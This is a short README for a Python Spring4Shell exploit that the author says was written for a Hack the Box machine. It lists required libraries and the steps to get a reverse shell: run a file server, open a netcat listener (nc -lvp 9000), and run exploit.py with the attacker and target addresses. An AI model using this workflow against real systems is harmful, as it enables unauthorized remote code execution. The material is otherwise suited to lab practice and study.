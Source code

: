 # Spring4Shell
A Spring Framework exploit I wrote in python for a box I was doing on Hack the box.

# Requirements
You must have the following python library:
> Request

> time

> arg.parse

# Setup:
In order to gain shell, 
1. You must first start a file server (python3 -m http.server.
2. Then you use netcat to listen by typing nc -lvp 9000
3. then run the exploit.py with the hostname, your ip, server port, and the port you are listening on with netcat. Example: ./exploit.py -li <your ip> -lp 8000 -ri <server ip> -rp <server port> --listening-port <nc listening port>
